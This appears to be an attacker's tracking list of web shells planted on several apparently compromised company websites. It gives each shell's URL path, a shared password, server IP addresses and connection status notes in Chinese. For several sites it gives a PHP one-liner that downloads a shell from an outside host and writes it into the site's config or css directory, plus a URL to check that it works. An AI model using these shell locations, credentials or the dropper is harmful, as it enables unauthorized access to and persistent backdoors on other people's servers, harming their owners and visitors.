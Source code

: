 http://en.jinruimould.com/static/upload/image/20220101/3m.php |mmk123 |rsa | 128.1.134.225 | 连接不上
http://en.jinruimould.com/core/function/2m12.php |mmk123 |rsa | 128.1.134.225
http://e.himin.com/runtime/upgrade/core/extend/ueditor/themes/default/font/2m12.php |mmk123 |  120.27.14.20
http://epc.himin.com/e/css/images/1m12.php |mmk123 |  120.27.14.20
代码更新：0608 ✅
http://epc.himin.com/guolu/httpd.php
<?php file_put_contents("../css/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://epc.himin.com/css/httpd.php?d=up

http://kepu.himin.com/1m12.php |mmk123 |  120.27.14.20
http://himin.com//static/upload/image/20190508/1m12.php |mmk123 |  120.27.14.20

http://ztjfcd.com/css/admin/1m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://ztjfcd.com/img/httpd.php
<?php file_put_contents("../css/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://ztjfcd.com/css/httpd.php?d=up

http://zanghongqu.com/template/zy/swiper-4.3.5/js/1m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://zanghongqu.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://zanghongqu.com/config/httpd.php?d=up

http://sdxy-uav.com/template/cglx/js/1m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://sdxy-uav.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://sdxy-uav.com/config/httpd.php?d=up

http://scshugao.com/template/shugao/font-awesome-4.7.0/css/3m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://scshugao.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://scshugao.com/config/httpd.php?d=up

http://schuayidl.com/images/admin/m12.php |mmk123 |  101.132.249.167   | 404

http://schhs.cn/template/default/static/js/m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://schhs.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://schhs.cn/config/httpd.php?d=up
